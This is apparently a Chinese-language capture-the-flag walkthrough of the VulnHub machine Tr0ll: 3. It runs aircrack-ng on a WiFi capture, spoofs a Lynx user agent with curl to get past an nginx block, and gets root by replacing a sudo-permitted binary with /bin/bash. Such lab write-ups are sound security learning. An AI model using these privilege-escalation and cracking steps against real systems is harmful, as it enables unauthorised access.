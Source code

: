 # Tr0ll: 3

2025.03.11 https://www.vulnhub.com/entry/tr0ll-3,340/

## Ip

192.168.5.39

## Scan

使用这个凭据 ssh 登陆 start:here

发现，但是密码不对:

```
start@Tr0ll3:~/redpill$ cat /home/start/redpill/this_will_surely_work
step2:Password1!
```

发现另外一个密码字典：

```
/.hints/lol/rofl/roflmao/this/isnt/gonna/stop/anytime/soon/still/going/lol/annoyed/almost/there/jk/no/seriously/last/one/rofl/ok/ill/stop/however/this/is/fun/ok/here/rofl/sorry/you/made/it/gold_star.txt
```

gold_star.txt 的所属用户是 eagle ，使用字典爆破一下，没有爆出。

发现另外一个文件 /var/log/.dist-manage/wytshadow.cap 是 wifi 的 pacp 文件，需要破解密码：

```
aircrack-ng wytshadow.cap -w gold_star.txt
```

找到 wifi 密码 gaUoCe34t1 , wifi SID 是 wytshadow , 是系统上的用户，使用这个凭据登陆 wytshadow:gaUoCe34t1

登陆后，发现 genphlux 的 suid oohfun 它一直在执行 /lol/bin/run.sh 打印信息，没什么利用价值。

sudo -l 显示 (root) /usr/sbin/service nginx start 启动 nginx，新开了 8080 端口，转向 web。

访问一直显示 403，查看一下 nginx 的配置文件 cat /etc/nginx/sites-enabled/default 发现：

```
server {
	listen 8080 default_server;
	listen [::]:8080 default_server;
		if ($http_user_agent !~ "Lynx*"){
    return 403;
}
```

这里 UA 要以 Lynx 开头，修改 UA 得到新的凭据：

```
curl -A 'Lynx M' http://192.168.5.39:8080
genphlux:HF9nd0cR!
```

进入到 genphlux 用户后，sudo -l 发现 (root) /usr/sbin/service apache2 start ，启动 apache2 发现开放了 80 端口。但是访问还是 403，查看配置文件 /etc/apache2/sites-available/000-default.conf 发现只允许本地访问 allow from 127.0.0.1 使用 wget -q -O- http://127.0.0.1 进行访问 127 得到用户凭据提示：

```
<!-- Wow, looking at the source code, you are truly l33t! The next step uses fido:x4tPl! >
```

但是 fido:x4tPl! 这个凭据不对，切换不了用户。

发现私钥文件 maleus 可能是这个用户 maleus 的，尝试登陆，登陆成功。

在 .viminfo 文件中发现了密码 `B^slc8I$` 应该是 maleus 用户的。sudo -l 显示 (root) /home/maleus/dont_even_bother strings 发现字符串 `xl8Fpx%6`，运行程序，输入这个字符串提示正确。这个程序属于 maleus 直接替换它：

```
mv dont_even_bother dont_even_bother.bak
cp /bin/bash dont_even_bother
sudo /home/maleus/dont_even_bother
```

拿到了最终的 root 权限,读取到 root flag：

```
root@Tr0ll3:/root# cat flag.txt
You are truly a Jedi!

Twitter Proof:

Pr00fThatTh3L33tHax0rG0tTheFl@g!!

@Maleus21
```
